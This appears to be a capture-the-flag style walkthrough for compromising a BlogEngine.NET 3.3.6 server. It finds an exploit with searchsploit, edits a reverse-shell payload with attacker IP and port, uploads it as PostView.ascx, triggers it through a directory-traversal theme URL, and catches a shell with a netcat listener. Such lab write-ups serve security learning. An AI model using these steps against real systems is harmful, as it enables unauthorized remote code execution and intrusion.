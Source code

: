 
Use `firefox` to login to url `http://<ip>/Account/login.aspx?ReturnURL=/admin/` with previously cracked password.

Use `searchsploit` to check for any known exploits.
{% capture code %}{% raw %}searchsploit "blogengine 3.3.6"{% endraw %}{% endcapture %} {% include code.html code=code %}

The output will be similar to
{% capture code %}{% raw %}------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                     |  Path
------------------------------------------------------------------- ---------------------------------
BlogEngine.NET 3.3.6 - Directory Traversal / Remote Code Execution | aspx/webapps/46353.cs
BlogEngine.NET 3.3.6/3.3.7 - 'dirPath' Directory Traversal / Remot | aspx/webapps/47010.py
BlogEngine.NET 3.3.6/3.3.7 - 'path' Directory Traversal            | aspx/webapps/47035.py
BlogEngine.NET 3.3.6/3.3.7 - 'theme Cookie' Directory Traversal /  | aspx/webapps/47011.py
BlogEngine.NET 3.3.6/3.3.7 - XML External Entity Injection         | aspx/webapps/47014.py
------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results{% endraw %}{% endcapture %} {% include code.html code=code %}

Download the `RCE` expliot script `46353.cs`.
{% capture code %}{% raw %}  Exploit: BlogEngine.NET 3.3.6 - Directory Traversal / Remote Code Execution
    URL: https://www.exploit-db.com/exploits/46353
    Path: /opt/searchsploit/exploits/aspx/webapps/46353.cs
File Type: HTML document, ASCII text, with CRLF line terminators

Copied to: /root/Windows-Exploit-Suggester/46353.cs{% endraw %}{% endcapture %} {% include code.html code=code %}

Copy the exploit `46353.cs` as `PostView.ascx`, and edit `PostView.ascx` with `ip` and `port` for `reverse shell`.
{% capture code %}{% raw %}using(System.Net.Sockets.TcpClient client = new System.Net.Sockets.TcpClient("<ip>", 443)){% endraw %}{% endcapture %} {% include code.html code=code %}

Use `firefox` to view the url `http://<ip>/admin/#/content/posts`, open folder icon and upload the file `PostView.ascx`.

Create a `netcat` listener.
{% capture code %}{% raw %}rlwrap -cAr nc -lnvp 443{% endraw %}{% endcapture %} {% include code.html code=code %}

The output will be similar to
{% capture code %}{% raw %}Listening on [0.0.0.0] (family 0, port 443){% endraw %}{% endcapture %} {% include code.html code=code %}

Use `firefox` to load the url `http://<ip>/?theme=../../App_Data/files` in order to spawn a `reverse shell`.

The `reverse shell` would have been spawned at `netcat` listener.
{% capture code %}{% raw %}Connection from <ip> 49252 received!
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv> whoami
iis apppool\blog{% endraw %}{% endcapture %} {% include code.html code=code %}
